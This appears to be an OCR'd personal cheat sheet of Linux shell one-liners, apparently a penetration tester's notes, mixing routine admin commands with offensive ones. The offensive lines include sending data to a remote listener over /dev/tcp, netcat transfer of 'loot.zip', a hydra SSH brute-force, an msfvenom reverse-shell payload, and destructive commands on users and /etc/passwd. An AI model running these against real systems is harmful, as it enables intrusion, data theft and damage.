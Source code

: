  enumerate listening services
`netstat -tulnp`

 check for open files on a process
`lsof -p 1234`

 fast way to get local IP
`ip a | grep inet`

 dump routing table
`route -n`

send data to remote listener
`echo "payload" > /dev/tcp/10.10.10.5/4444`

 enumerate running processes cleanly
``ps aux --sort=-%mem | head``

 test file write with weird perms
`touch /tmp/testfile && echo test > /tmp/testfile`

transfer file via nc
`nc -lvp 1234 > loot.zip  # listener`
`nc target 1234 < loot.zip  # sender`

 brute-force SSH usernames (don’t ask)
`hydra -L users.txt -p '123456' ssh://10.10.10.5`

 generate quick shellcode (raw, no wrapper)
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=1337 -f raw
`
 grep + awk magic to extract IPs from log
`cat access.log | grep -oP '(?<=client: )[\d\.]+' | sort -u`

deleted a user. no backup. nice.
`sudo userdel -r testuser`

 chattr locked this file and forgot why
`chattr +i /etc/passwd`

 hostname was weird, saved it for later
`hostname >> ~/weird_hostnames.txt`

